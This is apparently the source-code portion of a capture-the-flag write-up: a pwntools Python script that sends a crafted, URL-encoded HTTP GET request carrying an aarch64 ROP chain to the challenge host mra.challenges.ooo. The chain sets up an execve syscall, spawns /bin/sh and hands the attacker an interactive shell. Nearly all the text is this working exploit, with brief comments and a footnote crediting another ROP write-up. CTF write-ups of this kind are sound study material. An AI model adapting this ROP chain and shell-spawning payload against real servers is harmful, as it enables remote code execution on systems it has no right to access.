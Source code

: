 ```python
from pwn import *

context.arch = "arm"
context.bits = 64

portbase = 1
port = portbase + 10000

# converts an int like 0x400 to a properly setup string like %00%04%00%00%00%%00%00%00
# Remember when I said the authors were nice?
def a2pp(addr):
    txtaddr = str(hex(addr))[2:]
    sep = [bytes(txtaddr[i:i+2], "utf-8") for i in range(0, len(txtaddr), 2)]
    new = list(map(lambda l: b"%" + l.rjust(2, b"0"), reversed(sep)))
    while len(new) < 8:
        new.append(b"%00")
    return b"".join(new)

pad = b""
pad += b"%41%41%41%4a" # this is truly just padding
pad += a2pp(0x00) # NULL 
pad += a2pp(0x00) # NULL
pad += a2pp(0x41d184) # "/bin/sh\x00" address
pad += a2pp(0xdd) # syscall num for execve
pad += a2pp(0x4141414141414146) # dummy, this is discarded
pad += a2pp(0x004085a8) # sp - 8 -> sp - 0x38 -> regs x8, 0,1,2,3,4,5 && syscall
pad += a2pp(0x4141414141414146) # also discarded
pad += a2pp(0x9) # 9 bytes to read, length of binsh + newline (so could be 8 I guess)
pad += a2pp(0x41d184) # Address in data segment to read string into
pad += a2pp(0x0000000000000000) # # Also discarded....see a pattern?
payload = b""
payload += a2pp(0x6666666666666666) # dummy
payload += a2pp(0x00406510) 
payload += a2pp(0x5555555555555555) # dummy
payload += a2pp(0x4444444444444444) # dummy
payload += a2pp(0x3333333333333333) # dummy
payload += a2pp(0x2222222222222222) # dummy
xrep = pad + payload
# Ugly because it's just from the fuzzer and I didn't really change anything. lol
content = b"GET /api/isodd/1236%\x00\x008936%pris%d6666666>" + xrep + b"VVVV/666666!666666666666666666666666666666666666666api/666666666666666666666666666666F6666666666666@66666666666666666666666666666\x15????pris?\x16\x1636%\x00%%%%'%\x7f%%B6\x03"

# This isn't really necessary
content += b"1" * (0x3ff - len(content))

r = remote("mra.challenges.ooo", 8000)
print()
print("Sending ", content)
r.send(content)
r.sendline(b"/bin/sh\x00")
# Shell!
r.interactive()
```


[^1]: [Perfect Blue's Excellent aarch64 ROP writeup](https://web.archive.org/web/20210503022008/https://blog.perfect.blue/ROPing-on-Aarch64) because I didn't know a whole lot about aarch64 pwn.